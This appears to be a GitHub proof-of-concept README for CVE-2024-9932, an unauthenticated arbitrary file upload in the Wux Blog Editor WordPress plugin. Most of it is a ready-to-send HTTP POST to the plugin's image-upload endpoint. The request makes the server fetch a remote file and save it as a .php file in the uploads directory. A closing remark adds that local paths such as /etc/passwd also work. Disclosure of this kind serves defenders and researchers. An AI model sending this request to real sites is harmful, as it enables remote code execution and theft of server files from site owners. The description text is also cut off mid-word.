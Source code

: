 # CVE-2024-9932
Wux Blog Editor &lt;= 3.0.0 - Unauthenticated Arbitrary File Upload

# Description:
The Wux Blog Editor plugin for WordPress is vulnerable to arbitrary file uploads due to insufficient file type validation in the 'wuxbt_insertImageNew' function in versions up to, and including, 3.0.0. This makes it possible for unauthenticated attackers to upload arbitrary files on the affected site's server which may make remote code execution possi

```
Link: CVE-2024-9932
State: PUBLISHED
Score: 9.8
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

POC
---

```
POST /wp-json/external-post-editor/v2/image-upload HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/plugins.php?plugin_status=all&paged=1&s
Content-Type: application/json; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 165
Origin: http://kubernetes.docker.internal
Connection: keep-alive

{
    "url": "https://rfi.nessus.org/rfi.txt",
    "imageName": "rf.php",
    "image_alt": "Description of the image",
    "image_title": "Title of the image"
}
```

File ended up in /wp-content/uploads/2024/11/rf.php

You can also provide it a file location like /etc/passwd

